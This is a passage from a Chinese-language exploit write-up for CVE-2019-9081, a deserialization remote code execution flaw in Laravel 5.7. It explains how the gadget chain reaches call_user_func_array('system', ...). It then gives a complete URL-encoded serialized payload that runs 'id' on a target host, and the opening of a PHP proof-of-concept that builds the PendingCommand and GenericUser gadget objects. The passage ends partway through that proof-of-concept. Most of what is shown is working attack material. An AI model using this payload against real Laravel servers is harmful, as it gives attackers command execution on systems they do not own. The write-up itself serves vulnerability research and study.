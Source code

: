 `static::getCallReflector($callback)`这句用于利用反射获取`$callback`的对象，继续往下执行`static::addDependencyForCallParameter`，会对`$callback`的对象添加一些参数，但是这些不重要。最后一行才是关键。

最后将我们传入的`$parameters`参数数组和`$dependencies`数组合并，`$dependencies`数组为空。

最后在`BoundMethod`对象的`call`方法中我们相当于执行了以下代码:

    call_user_func_array('system',array('id'))

此时run函数中\$exitcode值即为命令的执行结果

![](./resource/(CVE-2019-9081)Laravel5.7反序列化rce/media/rId47.png)

    payload：
    http://www.0-sec.org/laravel-5.7/public/index.php/index?code=O%3A44%3A%22Illuminate%5CFoundation%5CTesting%5CPendingCommand%22%3A4%3A%7Bs%3A10%3A%22%00%2A%00command%22%3Bs%3A6%3A%22system%22%3Bs%3A13%3A%22%00%2A%00parameters%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A2%3A%22id%22%3B%7Ds%3A6%3A%22%00%2A%00app%22%3BO%3A33%3A%22Illuminate%5CFoundation%5CApplication%22%3A2%3A%7Bs%3A22%3A%22%00%2A%00hasBeenBootstrapped%22%3Bb%3A0%3Bs%3A11%3A%22%00%2A%00bindings%22%3Ba%3A1%3A%7Bs%3A35%3A%22Illuminate%5CContracts%5CConsole%5CKernel%22%3Ba%3A1%3A%7Bs%3A8%3A%22concrete%22%3Bs%3A33%3A%22Illuminate%5CFoundation%5CApplication%22%3B%7D%7D%7Ds%3A4%3A%22test%22%3BO%3A27%3A%22Illuminate%5CAuth%5CGenericUser%22%3A1%3A%7Bs%3A13%3A%22%00%2A%00attributes%22%3Ba%3A2%3A%7Bs%3A14%3A%22expectedOutput%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A1%3A%221%22%3B%7Ds%3A17%3A%22expectedQuestions%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A1%3A%221%22%3B%7D%7D%7D%7D

![](./resource/(CVE-2019-9081)Laravel5.7反序列化rce/media/rId48.png)

### POC

    <?php
    //gadgets.php
    namespace Illuminate\Foundation\Testing{
        class PendingCommand{
            protected $command;
            protected $parameters;
            protected $app;
            public $test;

            public function __construct($command, $parameters,$class,$app)
            {
                $this->command = $command;
                $this->parameters = $parameters;
                $this->test=$class;
                $this->app=$app;
            }
        }
    }

    namespace Illuminate\Auth{
        class GenericUser{
            protected $attributes;
            public function __construct(array $attributes){
                $this->attributes = $attributes;
            }
        }
    }
